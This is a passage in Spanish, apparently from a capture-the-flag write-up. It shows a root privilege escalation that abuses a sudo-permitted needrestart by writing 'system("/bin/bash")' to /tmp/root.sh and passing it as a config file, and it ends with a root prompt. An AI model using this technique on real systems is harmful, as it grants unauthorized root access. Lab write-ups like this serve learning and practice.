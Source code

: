 - Invocamos una shell en el directorio temporar y lo ejecutamos 

```shell
echo 'system("/bin/bash");' > /tmp/root.sh
```
```shell
sudo /usr/sbin/needrestart -c /tmp/root.sh
```

Finalmente obtenemos una shell con máximos privilegios.
```shell
root@conversor:/home#
```

